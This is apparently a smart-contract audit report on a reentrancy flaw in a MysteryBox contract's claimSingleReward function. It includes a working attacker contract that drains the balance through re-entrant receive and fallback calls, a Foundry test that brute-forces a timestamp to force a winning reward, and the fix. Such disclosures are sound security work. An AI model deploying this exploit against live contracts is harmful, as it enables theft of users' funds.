 ### Reentrancy attack in `MysteryBox::claimSingleReward` allows User/Player with non zero value reward to drain contract balance

## Summary
The `MysteryBox::claimSingleReward` function does not comply with the [CEI/FREI-PI](https://www.nascent.xyz/idea/youre-writing-require-statements-wrong) principle, enabling any user with a non-zero value reward to drain the contract balance. This vulnerability arises because the function updates the `rewardsOwned` array only after making an external call to `msg.sender`.

## Vulnerability Details
In the `claimSingleReward` function, the contract performs an external call to the user's address before updating their reward status. This can result in reentrancy attacks, allowing malicious users to exploit the function to claim rewards multiple times.

```Solidity
function claimSingleReward(uint256 _index) public {
    require(_index <= rewardsOwned[msg.sender].length, "Invalid index");
    uint256 value = rewardsOwned[msg.sender][_index].value;
    require(value > 0, "No reward to claim");

    (bool success,) = payable(msg.sender).call{value: value}("");
    require(success, "Transfer failed");

    delete rewardsOwned[msg.sender][_index];
}
```

A malicious player, possessing a non-zero reward such as a "Bronze Coin," could implement a `fallback` or `receive` function to repeatedly call `claimSingleReward`, draining the contract balance in the process.

### Proof of Concept
1. Users buy boxes.
2. An attacker sets up a contract with a `fallback` function that calls `MysteryBox::claimSingleReward`.
3. The attacker buys a box, opens it, and receives a non-zero reward. The `MysteryBox::openBox` function can be manipulated to ensure this reward.
4. The attacker calls `MysteryBox::claimSingleReward` from their contract, draining the contract balance.

### Proof of Code

Add the following code to the `TestMysteryBoxTest.t.sol` file within the `MysteryBoxTest` contract:

```Solidity
// @notice Function to calculate which block timestamp to open a box on to guarantee a non-zero value reward
// @param addr: address to get the reward
function calculateWinTimestampValue(address addr) public view returns (uint256) {
    uint256 value;
    uint256 winTime = block.timestamp;
            
    do {
        winTime++;
        value = uint256(keccak256(abi.encodePacked(winTime, addr))) % 100;            
    } while (value < 95);

    return winTime;
}

function testReentrancyClaimSingleReward() public {
    ReentrancyAttackerClaimSingleReward attacker = new ReentrancyAttackerClaimSingleReward(address(mysteryBox));
    uint256 boxPrice = mysteryBox.boxPrice(); 
    vm.deal(address(attacker), boxPrice);
    uint256 winningTimestamp = calculateWinTimestampValue(address(attacker));
    vm.warp(winningTimestamp);
    uint256 startingContractBalance = address(mysteryBox).balance;
    attacker.attack(); 

    uint256 endingAttackerBalance = address(attacker).balance;
    uint256 endingContractBalance = address(mysteryBox).balance;
    uint256 rewardValue = attacker.rewardValue(); 

    uint256 totalMysteryBoxValue = startingContractBalance + boxPrice;
    uint256 numberOfDuplicates = totalMysteryBoxValue / rewardValue;
    uint256 totalWithdrawnToAttacker = rewardValue * numberOfDuplicates;

    assertEq(endingAttackerBalance, totalWithdrawnToAttacker);
    assertEq(endingContractBalance, totalMysteryBoxValue - totalWithdrawnToAttacker);
}
```

Add the following code to the `TestMysteryBoxTest.t.sol` file:

```Solidity
contract ReentrancyAttackerClaimSingleReward {
    MysteryBox public mysteryBox;
    uint256 public boxPrice;
    uint256 public rewardValue;
    
    constructor (address _mysteryBox) {
        mysteryBox = MysteryBox(_mysteryBox);
        boxPrice = mysteryBox.boxPrice();
    }

    function attack() external payable { 
        mysteryBox.buyBox{value: boxPrice}();
        mysteryBox.openBox();  
        rewardValue = mysteryBox.getRewards()[0].value;         
        mysteryBox.claimSingleReward(0);
    }

    receive() external payable {
        if (address(mysteryBox).balance > rewardValue) {
            mysteryBox.claimSingleReward(0);
        }        
    }

    fallback() external payable {
        if (address(mysteryBox).balance > rewardValue) {
            mysteryBox.claimSingleReward(0);
        }        
    }
}
```

## Impact
This vulnerability allows users to potentially drain the entire balance of the contract, leading to significant financial loss.

## Tools Used
- VSCodium
- Slither

## Recommendations
To prevent this vulnerability, the `MysteryBox::claimSingleReward` function should update the `rewardsOwned` array before making any external calls, as shown below:

```diff
function claimSingleReward(uint256 _index) public {
    require(_index <= rewardsOwned[msg.sender].length, "Invalid index");
    uint256 value = rewardsOwned[msg.sender][_index].value;
    require(value > 0, "No reward to claim");

+   delete rewardsOwned[msg.sender][_index];
    (bool success,) = payable(msg.sender).call{value: value}("");
    require(success, "Transfer failed");

-   delete rewardsOwned[msg.sender][_index];
}